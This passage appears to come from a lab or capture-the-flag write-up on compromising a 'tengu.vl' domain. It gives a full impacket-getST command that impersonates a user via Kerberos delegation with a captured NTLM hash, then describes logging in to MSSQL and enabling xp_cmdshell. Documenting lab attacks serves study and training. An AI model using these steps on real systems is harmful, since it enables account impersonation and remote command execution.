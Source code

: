 We tried to impersonate `T1.M_Winters` and then logged in through MSSQL using the ticket.

<img src="attachments/d12870f88fc8003a93e42c936fbd3079.png" />

```
proxychains impacket-getST -spn 'MSSQLSvc/sql.tengu.vl' -impersonate 'T1_M.WINTERS' -hashes :a3a645c77e25cc005c8c2b659d571e6f 'tengu.vl/gMSA01$'@sql.tengu.vl -dc-ip 10.10.145.117
```

<img src="attachments/9403c9d935e0c307cb6d74eb04363c40.png" />

We exported the ticket and were able to log in to the MSSQL service on `sql.tengu.vl` (we initially used the IP of the machine but failed to log in; when we replaced it with `sql.tengu.vl`, it worked). We also enabled `xp_cmdshell` as we had the necessary privileges.

<img src="attachments/5957b0ffa297b20a5882d33aaae638bb.png" />
